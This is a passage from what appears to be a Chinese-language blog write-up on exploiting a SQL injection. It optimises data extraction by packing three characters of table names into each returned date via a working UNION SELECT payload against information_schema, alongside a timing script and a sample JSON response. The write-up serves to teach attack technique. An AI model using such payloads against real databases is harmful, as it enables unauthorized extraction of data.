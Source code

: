 ``` python
    break

print("result:", result)
print(f"time: {time.time() - start}s")
```

跑起來的結果：

![](/img/sql-injection-in-action/p7.png)

大約是 13 秒，又更快了一點。

### 最後的加速：善用多個日期

前面我們的日期區間都只傳入了一天，所以 response 就只有一天的結果，但這個功能其實可以傳入一個日期區間，例如說如果我們傳入 `2023-01-01 ~ 2023-01-05`，就會拿到五天的 response：

``` js
{
    "events": [
        {
            "start": "2021-01-01",
            "end": "2021-01-01",
            "status": "Unavailable"
        },
        {
            "start": "2021-01-02",
            "end": "2021-01-02",
            "status": "Unavailable"
        },
        {
            "start": "2021-01-03",
            "end": "2021-01-03",
            "status": "Unavailable"
        },
        {
            "start": "2021-01-04",
            "end": "2021-01-04",
            "status": "Unavailable"
        },
        {
            "start": "2021-01-05",
            "end": "2021-01-05",
            "status": "Unavailable"
        }
    ]
}
```

為了簡化 query，剛剛的 query 我們都只用到了一個日期而已，而我們知道一個日期可以傳回 3 個字元的資訊，如果我們精心設計一下 query，讓每天的回傳值都帶著 3 個字元，若是 10 天都用到，就能一次回傳 30 個字元，query 會像這樣：

``` sql
union select 1,1672502400,
      ascii(SUBSTRING(group_concat(table_name),1))*86400
      + ascii(SUBSTRING(group_concat(table_name),2))*86400*128
      + ascii(SUBSTRING(group_concat(table_name),3))*86400*128*128
      + 1672502400
    ,1  FROM information_schema.tables WHERE table_schema != 'mysql' AND table_schema != 'information_schema'
union select 1,1672588800,
      ascii(SUBSTRING(group_concat(table_name),4))*86400
      + ascii(SUBSTRING(group_concat(table_name),5))*86400*128
      + ascii(SUBSTRING(group_concat(table_name),6))*86400*128*128
      + 1672588800
```